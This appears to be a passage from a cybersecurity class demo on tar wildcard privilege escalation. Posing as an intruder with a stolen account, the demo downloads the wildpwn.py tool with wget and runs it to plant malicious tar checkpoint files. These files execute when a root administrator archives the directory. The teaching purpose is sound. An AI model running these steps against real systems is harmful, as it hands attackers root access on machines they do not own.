 ```
The hacker cannot simply run `.webscript`, as the script require root privileges.  So the hacker needs a user with root privileges, i.e. a system administrator to run it. 



#### Exploiting `tar` Demo

We'll use the following scenario:

- A hacker has gained access to our system by stealing the password for the instructor user.


- For this example we pretend that instructor user does not have root access, but in your activity you will truly be working with a user who does not have root access.

- We will pretend to be the hacker and use `wildpwn.py` to plant malicious files. These files will be executed when an administrator with root privileges runs the tar command.


Open up a terminal and run the following commands:

- Create a new directory for this demonstration: `mkdir ~/Documents/exploit_demo`

- Move to the `exploit_demo` directory with: 

    -  `cd /Documents/exploit_demo`

    - This is the directory to which the hacker would download the `wildpwn.py` program.

Download the script with `wget`.

- Then, run `ls -l` to show that the `wildpwn.py` program is in this directory.

     
    - `wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py`

    - `ls -l`
     
    ```
     -rw-r--r--   1 instructor  instructor   3.6K Dec 19 12:46 wildpwn.py
    ```

Type  `python wildpwn.py tar .` This will create both the malicious script and checkpoint files.

- Syntax breakdown:

    - `python` is used to run Python programs.
    - `wildpwn.py` is the program we’re executing.
    - `tar` tells `wildpwn.py` to create malicious files that will exploit the `tar` command. This is necessary because `wildpwn.py` can exploit other commands as well.
    - The `.` specifies that these files should be created in the current directory.

- Run the command and show the output:

    - `python wildpwn.py tar .`
    ```  
    [!] selected payload tar

    [*] Done! Now wait for something like: archive.tar * on . Good Luck!
    ```

```